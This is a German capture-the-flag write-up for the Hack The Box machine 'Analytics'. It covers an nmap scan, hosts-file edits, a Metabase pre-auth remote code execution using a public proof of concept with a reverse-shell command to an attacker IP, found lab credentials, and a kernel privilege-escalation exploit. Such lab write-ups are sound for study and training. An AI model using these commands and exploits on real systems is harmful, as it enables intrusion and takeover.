

# Analytics

## Overview

> OS : Linux
> Points: 30

Analytics ist eine saisonale Maschine, die während der Open Beta Season III präsentiert wurde. Sie wurde am 07. Oktober 2023 offiziell veröffentlicht.



## Schritt 1: Reconnaissance

Wir fangen mit einem nmap Scan an 

```shell
sudo nmap -p- -sC -sV -O IP_ADRESS

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Schritt 2: Initialer Zugang durch Hosts-Datei-Manipulation

Beim Öffnen des Webbrowsers bemerkte ich sofort eine Weiterleitung zu `analytical.htb`. Um diese Subdomain zu erreichen, musste ich zunächst die `/etc/hosts`-Datei auf meinem System bearbeiten, um die IP-Adresse der Maschine auf `analytical.htb` zu verweisen. Dies ermöglichte mir den Zugriff auf die Webanwendung, die auf der Subdomain gehostet wurde.

```shell
sudo su
echo "IP_ADRESS    analytical.htb" >> /etc/hosts
```
## Schritt 3: Anmeldung und Weiterleitung zu data.analytical.htb


Nachdem ich erfolgreich auf `analytical.htb` zugegriffen hatte, stieß ich auf einen Login-Button, der mich auf eine Anmeldeseite weiterleitete. Diese befand sich auf der Subdomain `data.analytical.htb`. Hier begann die eigentliche Herausforderung. Um auch hier Zugriff zu erhalten, musste ich erneut die `/etc/hosts`-Datei anpassen:

```shell
sudo su
echo "IP_ADRESS    analytical.htb" >> /etc/hosts
```


## Schritt 4: Entdeckung von Schwachstellen und Exploitation

Eine detaillierte Analyse der Webanwendung offenbarte, dass sie Metabase nutzt. Nach einer kurzen Recherche auf GitHub stellte sich heraus, dass Metabase einige Sicherheitslücken aufweist, einschließlich einer potenziellen `Remote Code Execution`-Schwachstelle. Insbesondere wurde auf der GitHub-Seite [https://github.com/m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc) ein passender Exploit gefunden.

Um diesen Exploit auszuführen, benötigte ich einen `setup-token`, der auf der Webseite im Verzeichnis `/api/setup/validate` zu finden war. Der folgende Link [https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) enthielt weitere Informationen dazu.

Nach dem Herunterladen des GitHub-Repositories führte ich die folgenden Befehle aus, um die Remote Code Execution zu erreichen:


```shell
nc -nvlp 8888
```

```shell
python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/MY_IP_ADRESS/8888 0>&1"
```


## Schritt 5 Privilege Escalation


Nach erfolgreicher Ausnutzung des Metabase-Exploits erlangte ich Zugang zum System als Metabase-Benutzer. Beim Untersuchen des Systems stieß ich auf die Zugangsdaten für den Benutzer `metalytics`:

- **Benutzername:** `metalytics`
- **Passwort:** `An4lytics_ds20223#`

Nach dieser Entdeckung begann die Suche nach einer Möglichkeit zur Privilege Escalation. Diese Suche dauerte einige Zeit, da ich es anspruchsvoller empfand, bis ich auf den folgenden Exploit stieß:


[https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

Um den Exploit auszuführen, kopierte ich ihn auf meinen Zielserver, speicherte ihn mit `nano` als `exploit.sh` und führte ihn aus. Dies ermöglichte mir den Zugang zum Root-Verzeichnis, wodurch ich die volle Kontrolle über das System erlangte.


